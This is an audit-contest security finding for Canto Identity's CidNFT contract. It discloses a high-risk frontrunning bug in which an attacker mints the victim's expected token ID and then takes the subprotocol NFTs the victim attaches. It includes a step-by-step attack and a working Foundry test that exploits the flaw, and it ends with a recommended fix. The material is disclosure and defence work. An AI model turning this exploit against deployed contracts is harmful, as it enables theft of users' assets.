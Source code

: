 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- edited-by-warden
- H-01

# [Attacker can frontrun a victim's mint+add transaction to steal NFT](https://github.com/code-423n4/2023-01-canto-identity-findings/issues/67) 

# Lines of code

https://github.com/code-423n4/2023-01-canto-identity/blob/main/src/CidNFT.sol#L147
https://github.com/code-423n4/2023-01-canto-identity/blob/main/src/CidNFT.sol#L165
https://github.com/code-423n4/2023-01-canto-identity/blob/main/src/CidNFT.sol#L237


# Vulnerability details

## Impact
High - an attacker can steal deposited NFTs from victims using the `mint()` + `add()` functionality in `CidNFT.sol`

## Proof of Concept

One of the core features of CID Protocol is the ability for users to attach Subprotocol NFTs to their `CidNFT`. The `CidNFT` contract custodies these attached NFTs, and they are regarded as "traits" of the user. 

The protocol currently includes functionality for a user to mint a `CidNFT` as their identity and then optionally add a subprotocol NFT to that `CidNFT` in the same transaction. This occurs in the `mint()` function of `CidNFT.sol`, which takes a byte array of `add()` parameters and includes a loop where `add()` can be repeatedly called with these parameters to attach subprotocol NFTs to the `CidNFT`. 
```

function mint(bytes[] calldata _addList) external {
    _mint(msg.sender, ++numMinted); 
    bytes4 addSelector = this.add.selector;
    for (uint256 i = 0; i < _addList.length; ++i) {
        (bool success /*bytes memory result*/, ) = address(this)
            .delegatecall(abi.encodePacked(addSelector, _addList[i]));
        if (!success) revert AddCallAfterMintingFailed(i);
    }
}
```
One of the arguments for `add()` is the `_cidNFTID` to which the user would like to attach their outside NFT. However, `_cidNFTID` is specified in calldata to `mint()`, and there is no guarantee that the user is actually `add()`ing to the `CidNFT` that they just minted. There is only a check in `add()` that the user is either the owner or approved for that `CidNFT`. 


```
function add(
        uint256 _cidNFTID, // No guarantee that this is the CidNFT id that was just minted by the user
        string calldata _subprotocolName,
        uint256 _key,
        uint256 _nftIDToAdd,
        AssociationType _type
    ) external {
    ...............
    if (
        cidNFTOwner != msg.sender &&
        getApproved[_cidNFTID] != msg.sender &&
        !isApprovedForAll[cidNFTOwner][msg.sender]
    ) revert NotAuthorizedForCIDNFT(msg.sender, _cidNFTID, cidNFTOwner);
    ...............
}
```

This opens up the following attack:

1. Victim sends a transaction expecting to mint `CidNFT #100`, and includes calldata to `add()` their SubprotocolNFT to the token in the same tx
2. Attacker frontruns this transaction with a `mint()` with no `add()` parameters, receives `CidNFT #100`, and sets the victim as approved for that token
3. The victim's transaction begins execution, and they instead receive token #101, though their `add()` calldata still specifies token #100
4. The victim's `add()` call continues, and their SubprotocolNFT is registered to `CidNFT #100` and transferred to the `CidNFT` contract
5. The attacker can then either revoke approval to the victim for `CidNFT #100` or immediately call `remove()` to transfer the victim's SubprotocolNFT to themselves

Below is a forge test executing this attack. This should run if dropped into `CidNFT.t.sol`.
```
function testMaliciousMint() public {
    uint256 cidTokenId = cidNFT.numMinted() + 1;
    (uint256 subTokenId1, uint256 subTokenId2) = (1, 2);
    (uint256 key1, uint256 key2) = (1, 2);

    // user1 == attacker
    // user2 == victim
    // Frontrun the victim's mint by minting the cidNFT token they expect before them
    vm.startPrank(user1);
    cidNFT.mint(new bytes[](0));

    // Set the victim (user2) as approved for the token user1 just minted
    cidNFT.setApprovalForAll(user2, true);
    vm.stopPrank();

    // Mint user2 the subtokens that user1 wants to steal, approve the CidNFT contract
    // for the subtokens, and prepare the addlist with the incorrect cidNFT token id
    vm.startPrank(user2);
    sub1.mint(user2, subTokenId1);
    sub1.mint(user2, subTokenId2);
    sub1.setApprovalForAll(address(cidNFT), true);

    bytes[] memory addList = new bytes[](2);
    addList[0] = abi.encode(
        cidTokenId,
        "sub1",
        key1,
        subTokenId1,
        CidNFT.AssociationType.ORDERED
    );
    addList[1] = abi.encode(
        cidTokenId,
        "sub1",
        key2,
        subTokenId2,
        CidNFT.AssociationType.ORDERED
    );

    // Mint user2 a new CidNFT and attach the subtokens to user1's CidNFT
    cidNFT.mint(addList);
    vm.stopPrank();

    // Confirm that user1's CidNFT has the subtokens and can transfer them out
    vm.startPrank(user1);
    cidNFT.remove(
        cidTokenId,
        "sub1",
        key1,
        subTokenId1,
        CidNFT.AssociationType.ORDERED
    );
    cidNFT.remove(
        cidTokenId,
        "sub1",
        key2,
        subTokenId2,
        CidNFT.AssociationType.ORDERED
    );
    vm.stopPrank();

    // Confirm that user1 now holds the subtokens
    assertEq(cidNFT.ownerOf(cidTokenId), user1);
    assertEq(cidNFT.ownerOf(cidTokenId + 1), user2);
    assertEq(sub1.ownerOf(subTokenId1), user1);
    assertEq(sub1.ownerOf(subTokenId2), user1);
}
## Tools Used
Manual review

## Recommended Mitigation Steps
- Enforce that the user can only `add()` to the CidNFT that they just minted rather than allowing for arbitrary IDs